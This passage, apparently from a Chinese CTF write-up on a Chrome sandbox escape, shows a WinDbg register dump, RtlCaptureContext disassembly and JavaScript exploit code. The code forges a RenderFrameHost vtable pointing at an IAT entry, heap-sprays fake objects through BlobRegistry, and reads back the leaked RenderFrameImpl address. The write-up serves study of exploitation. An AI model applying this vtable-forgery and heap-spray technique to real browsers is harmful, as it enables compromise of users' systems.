 ```
0:000&gt; r
rax=00007ff87c342190 rbx=000000006b00c513 rcx=0000022c35d045e0
rdx=0000004b4c3fe140 rsi=0000022c365f2e30 rdi=0000004b4c3fe140
rip=00007ff874e2c47b rsp=0000004b4c3fe070 rbp=0000000000000002
 r8=0000000000000000  r9=0000000000000000 r10=0000000000008000
r11=0000004b4c3fdfc0 r12=0000022c365677c0 r13=0000004b4c3fe7c0
r14=0000022c365f2e30 r15=0000000000000000
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
chrome!ovly_debug_event+0x1039e9b:
00007ff8`74e2c47b ff90c8000000    call    qword ptr [rax+0C8h]
```

注意到此时`rcx`指向的就是`RenderFrameImpl`对象地址，我们想要泄露的就是这个值，我们看一下`RtlCaptureContext`的代码

```
.text:00000001800A0D10                 pushfq
.text:00000001800A0D12                 mov     [rcx+78h], rax
.text:00000001800A0D16                 mov     [rcx+80h], rcx
.text:00000001800A0D1D                 mov     [rcx+88h], rdx
.text:00000001800A0D24                 mov     [rcx+0B8h], r8
.text:00000001800A0D2B                 mov     [rcx+0C0h], r9
...........................
```

一句`mov     [rcx+80h], rcx`将`rcx`的值保存到了`RenderFrameImpl`对象内部，然后我们使用`BlobRegistry`对象将该处的数据读取出来就可以得到地址了。官方WP的做法也是这个原理，只不过他使用的是`content::WebContentsImpl::GetWakeLockContext`这个函数。所以，我们可以将虚表指针伪造为IAT表地址，使得`call    qword ptr [rax+0C8h]`正好调用到`RtlCaptureContext`，然后我们将数据读出。

```
//伪造RenderFrameHost对象
      const fakeRFH = new BigUint64Array(RenderFrameHost_SIZE / 8).fill(0x4141414141414141n);
      //vtable
      fakeRFH[0] = RtlCaptureContext_iat - 0xc8n;

      //heap spray
      for (var i=0;i&lt;spray_count;i++) `{`
         spray_arr.push(await allocate(fakeRFH.buffer));
      `}`
      //call RtlCaptureContext
      await antNestPtr.store("")
      //now leak the address
      var rfh_addr = -1;
      //var allocation;
      for (var i=0;i&lt;spray_count;i++) `{`
         allocation = spray_arr[i];
         var x = await allocation.readQword(0x80);
         if (x != 0x4141414141414141n) `{`
            rfh_addr = x;
            break;
         `}`
      `}`
      if (rfh_addr == -1) `{`
         return false;
      `}`
```
